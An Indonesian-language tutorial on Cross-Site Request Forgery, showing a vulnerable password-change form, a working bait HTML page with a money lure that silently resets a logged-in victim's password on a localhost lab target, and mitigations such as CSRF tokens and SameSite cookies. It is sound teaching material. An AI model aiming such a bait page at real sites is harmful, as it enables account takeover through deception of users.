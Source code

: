 # Cross-site Request Forgery
## Definisi

CSRF (Cross-Site Request Forgery) adalah jenis kerentanan pada aplikasi web di mana penyerang dapat mengeksploitasi kepercayaan yang diberikan pengguna kepada suatu situs web. Dalam serangan CSRF, penyerang memanipulasi pengguna yang sedang diautentikasi (login) di situs web target untuk melakukan tindakan yang tidak disengaja tanpa sepengetahuan atau persetujuan mereka.

![csrf](https://media.geeksforgeeks.org/wp-content/uploads/20220330113139/csrf.jpg)

## Contoh Serangan

Terdapat sebuah website dengan fitur mengganti akun password.

![contoh](images/image.png)

```html
<form action="#" method="GET">
    New password:<br />
    <input type="password" AUTOCOMPLETE="off" name="password_new"><br />
    Confirm new password:<br />
    <input type="password" AUTOCOMPLETE="off" name="password_conf"><br />
    <br />
    <input type="submit" value="Change" name="Change">
</form>
```

Dapat dilihat tidak ada "CSRF-Token" sebagai proses verifikasi pada setiap request, maka dapat dibuat sebuah website sebagai **bait**.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Klik Dapat Uang Coy!!</title>
</head>
<body>
    <form action="http://localhost/vulnerabilities/csrf/?" method="GET">
        <input type="hidden" name="password_new" value="Password-Hacked-Attacker">
        <input type="hidden" name="password_conf" value="Password-Hacked-Attacker">
        <input type="hidden" name="Change" value="Change">
        <input type="submit" value="Klik Langsung Dapat UANG!!!">
    </form>
</body>
</html>
```

Website yang dibuat penyerang tujuannya adalah mengelabuhi korban, agar melakukan eksekusi request yang tidak diinginkan.

## Mitigasi

- `CSRF-Token`: Sebagai token unik pada setiap request dan sesi, server akan melakukan verifikasi sebelum memprosesnya.
- `Validasi Header`: Mengecek referer header untuk memastikan request berasal dalam sumber yang sah.
- `SameSite Cookie`: Mengatur cookie dengan atribut SameSite untuk membatasi bahwa request dibuat dalam situs yang sama.

## Referensi

1. https://portswigger.net/web-security/csrf
2. https://owasp.org/www-community/attacks/csrf